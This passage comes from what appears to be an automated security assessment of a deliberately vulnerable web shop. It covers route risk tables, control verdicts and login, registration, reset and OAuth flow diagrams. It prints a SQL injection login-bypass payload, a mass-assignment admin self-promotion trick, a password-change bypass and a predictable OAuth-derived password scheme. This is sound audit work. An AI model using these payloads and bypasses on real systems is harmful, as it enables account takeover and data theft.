<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/login</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-010">F-010</a> (Derived Predictable Password from Email Claim)<br/>🟠 <a href="#f-041">F-041</a> (Missing Rate Limit on Login Endpoint)<br/>🔴 <a href="#f-008">F-008</a> (SQL Injection Authentication Bypass)<br/>handler: <code>server.ts:594</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/search</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-011">F-011</a> (SQL Injection via UNION in Product Search)<br/>🟡 <a href="#f-053">F-053</a> (Unbounded Raw SQL Query Event Loop Block)<br/>handler: <code>server.ts:600</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/change-password</code></td><td>🔴 Critical</td><td>🟠 <a href="#f-046">F-046</a> (Password Change Bypass Without Current Password)<br/>🔴 <a href="#f-015">F-015</a> (<code>MD5</code> Password Hashing Without Salt)<br/>handler: <code>server.ts:595</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​this/​page/​is/​hidden/​behind/​an/​incredibly/​high/​paywall/​that/​could/​only/​be/​unlocked/​by/​sending/​1btc/​to/​us</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-017">F-017</a> (Mass Assignment Allows Self-Promotion to Admin Role)<br/>🟠 <a href="#f-024">F-024</a> (Unlocked npm Dependencies Enable Postinstall Code Execution)<br/>handler: <code>server.ts:649</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🟠 High</td><td>🟠 <a href="#f-023">F-023</a> (Server-Side Request Forgery via Profile Image URL)<br/>handler: <code>server.ts:664</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/file</code></td><td>🟠 High</td><td>🟠 <a href="#f-023">F-023</a> (Server-Side Request Forgery via Profile Image URL)<br/>handler: <code>server.ts:310</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/url</code></td><td>🟠 High</td><td>🟠 <a href="#f-023">F-023</a> (Server-Side Request Forgery via Profile Image URL)<br/>handler: <code>server.ts:311</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​configuration</code></td><td>🟠 High</td><td>🔴 <a href="#f-045">F-045</a> (Unauthenticated Admin Configuration Endpoints)<br/>Management surface; handler: <code>server.ts:605</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​version</code></td><td>🟠 High</td><td>🔴 <a href="#f-045">F-045</a> (Unauthenticated Admin Configuration Endpoints)<br/>Management surface; handler: <code>server.ts:604</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/data-export</code></td><td>🟠 High</td><td>🟠 <a href="#f-028">F-028</a> (Missing User-Identity Audit Trail in Access Logs)<br/>handler: <code>server.ts:618</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/reset-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-041">F-041</a> (Missing Rate Limit on Login Endpoint)<br/>handler: <code>server.ts:596</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🟠 High</td><td>🟠 <a href="#f-023">F-023</a> (Server-Side Request Forgery via Profile Image URL)<br/>handler: <code>server.ts:663</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/redirect</code></td><td>🟡 Medium</td><td>🟡 <a href="#f-054">F-054</a> (Open Redirect Allowlist Bypass via Substring Match)<br/>handler: <code>server.ts:656</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/</code></td><td>-</td><td>handler: <code>routes/dataErasure.ts:54</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks</code></td><td>-</td><td>handler: <code>server.ts:401</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/metrics</code></td><td>-</td><td>Management surface; handler: <code>server.ts:718</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​findIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:610</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​fixIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:611</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:612</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>-</td><td>handler: <code>server.ts:312</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​order-​history/​:​id/​delivery-​status</code></td><td>-</td><td>handler: <code>server.ts:623</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/wallet/balance</code></td><td>-</td><td>handler: <code>server.ts:625</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​rest/​web3/​walletExploitAddress</code></td><td>-</td><td>handler: <code>server.ts:642</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/walletNFTVerify</code></td><td>-</td><td>handler: <code>server.ts:641</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/fixes</code></td><td>-</td><td>handler: <code>server.ts:670</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/verdict</code></td><td>-</td><td>handler: <code>server.ts:668</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
</tbody>
</table>

_30 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (57 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (53)

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:9%"><col style="width:30%"><col style="width:14%"><col style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-017">F-017</a> (Mass Assignment Allows Self-Promotion to Admin Role)<br/>🔴 <a href="#f-021">F-021</a> (Server-Side Template Injection via eval in User Profile)<br/>handler: <code>server.ts:362</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-017">F-017</a> (Mass Assignment Allows Self-Promotion to Admin Role)<br/>🔴 <a href="#f-021">F-021</a> (Server-Side Template Injection via eval in User Profile)<br/>handler: <code>server.ts:407</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/b2b/v2/orders</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-001">F-001</a> (JWT Algorithm Confusion Missing algorithms Allowlist)<br/>🟠 <a href="#f-040">F-040</a> (Missing Rate Limit on CPU-Bound Sandbox Endpoint)<br/>handler: <code>server.ts:645</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-022">F-022</a> (Missing Authorization on Products PUT Endpoint)<br/>🔴 <a href="#f-026">F-026</a> (Stored XSS via Product Description Trust Bypass)<br/>handler: <code>server.ts:369</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-022">F-022</a> (Missing Authorization on Products PUT Endpoint)<br/>🔴 <a href="#f-026">F-026</a> (Stored XSS via Product Description Trust Bypass)<br/>handler: <code>server.ts:370</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/disable</code></td><td>🟠 High</td><td>🟠 <a href="#f-041">F-041</a> (Missing Rate Limit on Login Endpoint)<br/>handler: <code>server.ts:470</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/setup</code></td><td>🟠 High</td><td>🟠 <a href="#f-041">F-041</a> (Missing Rate Limit on Login Endpoint)<br/>handler: <code>server.ts:464</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/verify</code></td><td>🟠 High</td><td>🟠 <a href="#f-041">F-041</a> (Missing Rate Limit on Login Endpoint)<br/>handler: <code>server.ts:457</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Products</code></td><td>🟠 High</td><td>🔴 <a href="#f-022">F-022</a> (Missing Authorization on Products PUT Endpoint)<br/>🔴 <a href="#f-026">F-026</a> (Stored XSS via Product Description Trust Bypass)<br/>handler: <code>server.ts:368</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:449</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:450</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems/:id</code></td><td>-</td><td>handler: <code>server.ts:425</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:439</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:440</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:441</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks/:id</code></td><td>-</td><td>handler: <code>server.ts:432</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Quantitys/:id</code></td><td>-</td><td>handler: <code>server.ts:428</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:387</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:388</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:389</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/status</code></td><td>-</td><td>handler: <code>server.ts:462</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id</code></td><td>-</td><td>handler: <code>server.ts:601</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id/checkout</code></td><td>-</td><td>handler: <code>server.ts:602</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​basket/​:​id/​coupon/​:​coupon</code></td><td>-</td><td>handler: <code>server.ts:603</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:632</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:633</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
</tbody>
</table>

_27 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (53 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 7. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

_[§7](#7-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 40 total - 1 adequate, 10 partial, 12 weak, 4 unsafe, 13 missing. Linked threats: 54._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 7.1 Security Control Overview

<!-- §7.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls) | 🟠 Weak | 7 routed findings; catalogued controls are<br/>weak (e.g. Password-Based Login, User<br/>Registration). |
| [7.3 Session and Token Controls](#73-session-and-token-controls) | 🔴 Unsafe | 1 routed finding; catalogued controls are<br/>present but defeated (e.g. Session Token<br/>Signing (JWT Based), Session Token<br/>Validation (JWT Based)). |
| [7.4 Authorization Controls](#74-authorization-controls) | 🔴 Missing | 8 routed findings; required controls not in<br/>place (e.g. Role-Based Access Control,<br/>Object-Level Authorization). |
| [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls) | 🔴 Unsafe | 2 routed findings; catalogued controls are<br/>present but defeated (e.g. Parameterized<br/>Database Access). |
| [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls) | 🟠 Weak | 4 routed findings; catalogued controls are<br/>weak (e.g. Input Schema Validation). |
| [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls) | 🟠 Weak | 3 routed findings; catalogued controls are<br/>weak (e.g. Output Encoding). |
| [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls) | 🔴 Unsafe | Catalogued controls are present but defeated<br/>(e.g. Content Security Policy, CORS Policy). |
| [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection) | 🔴 Missing | 2 routed findings; required controls not in<br/>place (e.g. Password Hashing, Secret<br/>Management). |
| [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls) | 🟠 Weak | 9 routed findings; no compensating controls<br/>catalogued. |
| [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 9 routed findings; required controls not in<br/>place (e.g. Request Access Logging, Security<br/>Event Logging). |
| [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls) | 🔴 Missing | Required controls not in place (e.g.<br/>WebSocket Authentication, LLM Output<br/>Filtering). |
| [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §7.1 MECHANICAL-FROZEN END -->

### 7.2 Identity and Authentication Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.2.1 Password-Based Authentication](#721-password-based-authentication)
- [7.2.2 User Registration](#722-user-registration)
- [7.2.3 Password Reset](#723-password-reset)
- [7.2.4 Password Change](#724-password-change)
- [7.2.5 Multi-Factor Authentication (TOTP/2FA)](#725-multi-factor-authentication-totp2fa)
- [7.2.6 OAuth/OIDC Social Login](#726-oauthoidc-social-login)

**Implemented controls:** Password-based login via Sequelize, user registration via `POST /api/Users` (finale-rest), password reset via security question, password change via `GET /rest/user/change-password`, TOTP-based multi-factor authentication (enrollment and verification), OAuth social login adapter in `oauth.component.ts`, rate limiting on password-reset and 2FA routes.

**Assessment:** Authentication across this application is structurally weak. The login route uses raw SQL string interpolation (`routes/login.ts:34`) that allows full bypass with a trivial payload, and the password hash (`crypto.createHash('md5')`) provides no meaningful credential protection after extraction. The OAuth adapter derives a deterministic local password from the user's email address, creating a second authentication bypass path that does not require OAuth interaction. TOTP enrollment exists but MFA is optional and unenforced for admin accounts. Each successful flow issues a session token whose lifecycle is examined in [§7.3 Session and Token Controls](#73-session-and-token-controls).

<!-- §7.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§7.3 Session and Token Controls](#73-session-and-token-controls) and password hashing under [§7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|---------|-----------|------------------------------------------------|
| User registration | 🟠 Weak | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-017](#f-017) — Mass Assignment Allows Self-Promotion to Admin Role (server.ts:500)<br/>🔴 [F-047](#f-047) — Sensitive REST route registered without authentication middleware server.ts:310 |
| Password login | 🟠 Weak | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`) |
| Password reset / change | 🟠 Weak | [§7.2](#72-identity-and-authentication-controls) | 🟠 [F-046](#f-046) — Password Change Bypass Without Current Password (`routes/changePassword.ts:39`) |
| Password storage (hashing) | 🟡 Partial | [§7.9](#79-cryptography-secrets-and-data-protection) | 🔴 [F-015](#f-015) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`) |
| JWT / bearer-token session | 🔴 Unsafe | [§7.3](#73-session-and-token-controls) | 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`)<br/>🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage<br/>🔴 [F-019](#f-019) — JWT decode used without signature verification `lib/insecurity.ts:58`<br/>🔴 [F-052](#f-052) — Stored XSS via lastLoginIp JWT Claim Trust Bypass |
| Session-token storage | 🟠 Weak | [§7.3](#73-session-and-token-controls) | 🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage |
| Multi-factor authentication (TOTP / 2FA) | 🟡 Partial | [§7.2](#72-identity-and-authentication-controls) | - |
| OAuth / OIDC federated login | 🟠 Weak | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-010](#f-010) — Derived Predictable Password from Email Claim (oauth.component.ts:30)<br/>🟠 [F-020](#f-020) — OAuth Implicit Flow Token in URL Fragment (login.component.ts:134) |

<!-- §7.2 AUTH-MECHANISMS-FROZEN END -->

<a id="password-based-authentication"></a><a id="password-based-login"></a>
#### 7.2.1 Password-Based Authentication

**Status:** 🟠 Weak - the login flow accepts credentials and issues JWTs, but raw SQL string interpolation in the login query allows complete authentication bypass without any valid credential.

Password-based login protects account access by verifying that the supplied email and password match a stored credential before granting a session. The application accepts credentials at `POST /rest/user/login`, hashes the submitted password with `MD5` via `lib/insecurity.ts:43`, and compares both values in a SQL query against the SQLite Users table.

The diagram shows the intended successful password-login path, including the JWT issuance step:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as Express API
    participant DB as SQLite Users Table
    participant JWT as JWT Issuer (lib/insecurity.ts)

    User->>SPA: Enter email + password
    SPA->>API: POST /rest/user/login {email, password}
    API->>DB: SELECT * FROM Users WHERE email='...' AND password='...'
    DB-->>API: User row (or empty)
    API->>JWT: authorize(user) - sign RS256 JWT
    JWT-->>API: Signed bearer token
    API-->>SPA: {authentication: {token, bid}}
    SPA->>SPA: localStorage.setItem('token', ...)
```

**Security assessment**

`routes/login.ts:34` passes `req.body.email` directly into a `models.sequelize.query()` string template without parameterisation. The payload `' OR '1'='1' --` short-circuits the WHERE clause and returns the first row, which is the seeded admin account, without any valid credential. The password hash function (`crypto.createHash('md5')`) provides no salt or work factor, so hashes extracted via the SQL injection at `routes/search.ts:23` are immediately crackable via rainbow tables. Together these two defects mean the authentication flow can be bypassed entirely from the network.

The vulnerable login query that accepts string interpolation:

```ts
// routes/login.ts:34
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '...'`
)
```

**Rate limiting.** `POST /rest/user/login` carries no rate-limit middleware - an attacker can submit thousands of login attempts per second without throttle. `POST /rest/user/reset-password` (line 343), `POST /rest/2fa/verify` (line 458), `POST /rest/2fa/setup` (line 465), and `POST /rest/2fa/disable` (line 471) each carry a per-IP `express-rate-limit` guard. The reset-password limit uses `req.ip`, which is bypassable via X-Forwarded-For on deployments that trust proxy headers without explicit `trust proxy` configuration. A global `express-rate-limit` is also registered at application startup as a baseline defence-in-depth layer; however, per-endpoint throttling for the primary login route and the B2B order route (`POST /b2b/v2/orders`) is absent. The B2B route in particular accepts expression evaluation via `safeEval()` (🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`)) - per-route throttling there would reduce the sandbox-escape exploitation window.

**Relevant findings**

- 🔴 [F-008](#f-008) — SQL injection in the login query allows authentication bypass without any valid credential.
- 🔴 [F-015](#f-015) — MD5 password hashing without salt means extracted hashes are cracked immediately offline; see [§7.9.1 Password Hashing](#password-hashing) for full assessment.

<a id="user-registration"></a>
#### 7.2.2 User Registration

**Status:** 🟠 Weak - registration creates new accounts correctly, but the finale-rest handler accepts any JSON field including `role`, enabling mass-assignment of admin privileges during signup.

User registration allows new customers to create an account by supplying email, password, and profile details. The application exposes `POST /api/Users` via the finale-rest auto-generated handler, which maps request body fields to `UserModel` columns and persists the new account to SQLite.

The diagram shows the intended registration path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as Express API
    participant DB as SQLite Users Table

    User->>SPA: Fill registration form (email, password, role omitted)
    SPA->>API: POST /api/Users {email, password, passwordRepeat}
    API->>DB: INSERT INTO Users (email, password, role='customer')
    DB-->>API: Created user row
    API-->>SPA: 201 Created {id, email, role}
```

**Security assessment**

`server.ts:483` configures the finale-rest User resource to exclude only `['password', 'totpSecret']` from accepted POST body fields. The `role` column is not excluded, so a registration request containing `"role": "admin"` persists the admin role without any server-side rejection. `verify.registerAdminChallenge()` at `server.ts:419` logs the event but does not prevent the role assignment. An anonymous actor can register an admin account in a single unauthenticated request.

The registration body that reaches finale-rest without role filtering:

```ts
// server.ts:483 — role not in exclude list
{
  name: 'User',
  exclude: ['password', 'totpSecret'],  // 'role' missing here
  model: UserModel
}
```

**Relevant findings**

- 🔴 [F-017](#f-017) — Mass assignment of `role: admin` during registration bypasses all access controls for the created account.
- 🔴 [F-047](#f-047) — Sensitive routes registered at `server.ts:310` without authentication middleware compound the registration surface.

<a id="password-reset"></a>
#### 7.2.3 Password Reset

**Status:** 🟠 Weak - a password-reset flow exists via security questions, but the reset endpoint applies rate limiting only at the IP level and the security-question answers are not hashed, reducing their effective secrecy.

Password reset allows users who have forgotten their credentials to regain access by answering a pre-registered security question. The application exposes `POST /rest/user/reset-password`, which verifies the supplied security-question answer against the stored value and, on match, updates the password.

The diagram shows the intended password-reset path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as Express API
    participant DB as SQLite Users Table

    User->>SPA: Enter email + security answer + new password
    SPA->>API: POST /rest/user/reset-password
    API->>DB: SELECT securityAnswer WHERE email=?
    DB-->>API: Stored answer (plain text)
    API->>API: Compare answer strings
    API->>DB: UPDATE Users SET password=hash(newPassword)
    API-->>SPA: 200 OK
```

**Security assessment**

`server.ts:343` applies an `express-rate-limit` to `POST /rest/user/reset-password`, which provides some brute-force protection for the reset endpoint. However, security-question answers are stored in plain text in the database, so a SQL-injection-based Users table dump (🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`), 🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`)) exposes all answers directly. The rate-limit guard uses the client IP address, which is bypassable via X-Forwarded-For header manipulation on deployments without `trust proxy` configured correctly.

**Relevant findings**

- 🔴 [F-008](#f-008) — SQL injection in the login route provides an alternative path to obtain reset-relevant user data.
- 🔴 [F-015](#f-015) — MD5 hashing of the new password after reset provides no meaningful protection if the database is later dumped.

<a id="password-change"></a>
#### 7.2.4 Password Change

**Status:** 🟠 Weak - the password-change route is guarded by a JWT bearer token, but the current-password check is conditional rather than mandatory, allowing authenticated users to change their password without knowing the existing one.

Password change allows an authenticated user to update their credential. The application exposes `GET /rest/user/change-password` (note: a state-changing operation on a GET route), which reads the current password, new password, and repeat from query parameters after validating the bearer token.

The diagram shows the intended password-change path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as Express API
    participant JWT as JWT Middleware

    User->>SPA: Enter current + new password
    SPA->>API: GET /rest/user/change-password?current=...&new=...
    API->>JWT: Verify bearer token
    JWT-->>API: Decoded user payload
    API->>API: Compare hash(current) vs stored password
    API-->>SPA: 200 OK or 401
```

**Security assessment**

`routes/changePassword.ts:39` guards the current-password check with `if (currentPassword && ...)` - the check runs only when `currentPassword` is supplied. Omitting the `current` query parameter entirely skips the verification step and allows an attacker with a valid session token (e.g. stolen via XSS) to rotate the victim's password and lock them out without needing to know the original credential. The endpoint also uses GET for a state-changing operation, making it vulnerable to CSRF via cross-site link navigation.

The conditional guard that can be bypassed by omitting the parameter:

```ts
// routes/changePassword.ts:39
if (currentPassword && security.hash(currentPassword) !== loggedInUser.data.password) {
  // only checked when currentPassword is truthy
}
```

**Relevant findings**

- 🟠 [F-046](#f-046) — Password change without current password verification allows credential rotation from a stolen session token.

<a id="multi-factor-authentication-totp-2fa"></a><a id="multi-factor-enrollment"></a><a id="multi-factor-enrollment-totp"></a>
#### 7.2.5 Multi-Factor Authentication (TOTP/2FA)

**Status:** 🟡 Partial - TOTP-based two-factor authentication is implemented and functional for enrollment and verification, but MFA is optional and not enforced for admin accounts, leaving privileged sessions unprotected.

Multi-factor authentication adds a second verification step at login using a time-based one-time password generated by an authenticator app. The application exposes TOTP enrollment at `POST /rest/2fa/setup` and verification at `POST /rest/2fa/verify`, both protected by bearer tokens.

The diagram shows the intended TOTP enrollment path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as Express API
    participant DB as SQLite Users Table

    User->>SPA: Navigate to 2FA setup
    SPA->>API: POST /rest/2fa/setup (bearer token)
    API->>API: Generate TOTP secret + QR code URI
    API->>DB: Store totpSecret for user
    API-->>SPA: {secret, uri} for QR scan
    User->>SPA: Scan QR, enter TOTP code
    SPA->>API: POST /rest/2fa/verify {token: "123456"}
    API->>API: Verify TOTP code against stored secret
    API-->>SPA: 200 OK
```

**Security assessment**

TOTP enrollment and verification are implemented correctly: `server.ts` rate-limits both `/rest/2fa/verify` and `/rest/2fa/setup`/`/rest/2fa/disable` endpoints. The structural gap is that MFA is an opt-in feature - existing and newly registered accounts default to no second factor. Admin accounts created via the mass-assignment path (🔴 [F-017](#f-017) — Mass Assignment Allows Self-Promotion to Admin Role (`server.ts:500`)) bypass MFA entirely because no enrollment is required at the privileged registration moment. Without mandatory MFA for admin roles, any admin credential compromise (via SQLi, JWT forgery, or token theft) provides full administrative access.

**Relevant findings**

- No dedicated MFA-mechanism finding is routed in this assessment. The gap is structural: MFA exists but enforcement is absent.
- 🔴 [F-017](#f-017) — Admin accounts created via mass assignment skip MFA enrollment entirely.

<a id="oauth-oidc-social-login"></a><a id="social-login-adapter"></a><a id="social-login-adapter-oauth-oidc"></a>
#### 7.2.6 OAuth/OIDC Social Login

**Status:** 🟠 Weak - the OAuth adapter delegates identity verification to Google, but converts the OAuth identity into a deterministic local password derived from the user's email, creating a bypass path that does not require OAuth interaction.

The OAuth/OIDC social login adapter allows users to authenticate using their Google account. `oauth.component.ts` reads an access token from the redirect URL, calls Google's userinfo endpoint to obtain the user's email address, and then calls `UserService.oauthLogin()` to create a local account if absent and authenticate using a locally derived credential.

The diagram shows the OAuth/OIDC adapter path, including the local-login re-entry point:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as OAuth Component
    participant Google as Google UserInfo API
    participant API as Express API (local login)
    participant JWT as JWT Issuer

    User->>SPA: Return from Google redirect with access token
    SPA->>Google: GET userinfo with access_token
    Google-->>SPA: {email}
    SPA->>API: POST /api/Users {email, password=btoa(reverse(email))}
    API-->>SPA: 200 (account created or already exists)
    SPA->>API: POST /rest/user/login {email, password=btoa(reverse(email))}
    API->>JWT: authorize(user)
